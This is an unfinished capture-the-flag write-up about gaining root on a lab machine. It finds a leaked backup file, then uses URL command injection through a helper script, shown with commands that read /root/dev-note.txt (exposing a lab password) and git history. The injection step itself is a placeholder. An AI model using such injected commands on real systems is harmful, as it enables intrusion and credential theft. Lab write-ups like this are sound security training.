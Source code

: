 I then began to run a bunch of other stuff to confirm that they are interpreted by the URL.  I didn't appear that the system had python, netcat, or anything else installed - except curl and git.

I then remembered that this section is talking about backups.  Going back to notes I made earlier, I realised that *.bak.txt* was specified in the *robots.txt* file.  These *.bak* files are mostly created by a program that needs to store backups.  Although, I had a feeling that this may have potentially been created  left accidentally by one of the developers.

I tried looking for various backup files for each of the pages on the site and eventually stumbled across the *.bak* file for exif-util:

![backup file](screenshots/backup_file.png)

I continued to try some more combos with the urls I found earlier but I didn't get anywhere.

I created a short Python script so I could execute this from the terminal (just to make my life easier, I was almost at my wits end at this point).

I **eventually** discovered...

(insert injecting stuff)

So now I know that I am *root* on this machine.  There is also a suspicious *dev-note.txt* file in the `/root` directory.  A simple `cat` gave this:

```
$ python3 url_inject.py "10.10.148.224" "cat /root/dev-note.txt"
Hey guys,

Apparently leaving the flag and docker access on the server is a bad idea, or so the security guys tell me. I've deleted the stuff.

Anyways, the password is fluffybunnies123

Cheers,

Hydra
```

Finally, a username (*hydra*) and password (*fluffybunnies123*).  I attempted to SSH into the machine as *root* and as *hydra*, however, SSH was acting very strange - another rabbit hole.

Looking at the root directory again, I noticed a `.git` directory.  Expanding the log gives:

```
$ python3 url_inject.py "10.10.148.224" "cd /root; git log"     
commit 5242825dfd6b96819f65d17a1c31a99fea4ffb6a
Author: Hydra <hydragyrum@example.com>
Date:   Thu Jan 7 16:48:58 2021 +0000

    fixed the dev note

commit 4530ff7f56b215fa9fe76c4d7cc1319960c4e539
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Removed the flag and original dev note b/c Security

commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes
```
